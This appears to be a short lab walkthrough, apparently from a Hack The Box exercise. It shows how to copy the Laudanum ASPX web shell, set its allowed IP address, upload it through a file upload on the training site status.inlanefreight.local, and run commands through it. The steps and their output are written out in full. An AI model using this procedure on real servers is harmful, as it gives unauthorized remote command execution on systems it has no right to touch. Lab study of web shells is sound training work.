


## Laudanum, One Webshell to Rule Them All

1. copy the laudanum aspx web shell.

```
cp /usr/share/laudanum/aspx/shell.aspx .
```

laudanum aspx is a pre-built web shell designed for windows web servers running ASP.NET (typically IIS).

2. configure its allowed ip addresses.

```
vi shell.aspx
```

3. in vim.

go to line 59 and add your ip address (tun0 if htb vpn):
```
:59
```

<p align="center">
  
</p>

save and quit:
```
:wq
```

4. go to `status.inlanefreight.local`.

<p align="center">
  
</p>

5. upload the modified `shell.aspx`.

output:
```
Uploaded Configuration File Name: C:\inetpub\wwwroot\status.inlanefreight.local\files\shell.aspx
File Size: 4350
File Type: application/octet-stream
```

6. go to `status.inlanefreight.local/files/shell.aspx` and query where you are.

```
dir
```